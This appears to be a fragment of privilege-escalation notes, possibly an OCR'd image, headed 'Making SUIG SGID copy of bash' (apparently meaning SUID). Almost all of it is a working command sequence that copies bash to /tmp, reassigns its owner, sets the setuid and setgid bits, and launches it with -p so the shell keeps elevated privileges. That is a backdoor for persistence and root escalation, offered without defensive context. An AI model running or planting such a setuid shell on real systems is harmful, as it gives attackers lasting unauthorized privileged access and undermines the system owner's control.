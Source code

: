## Linux

### Making SUIG SGID copy of bash

```
/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod g+s /tmp/tom; chmod u+s /tmp/tom
/tmp/tom -p
```
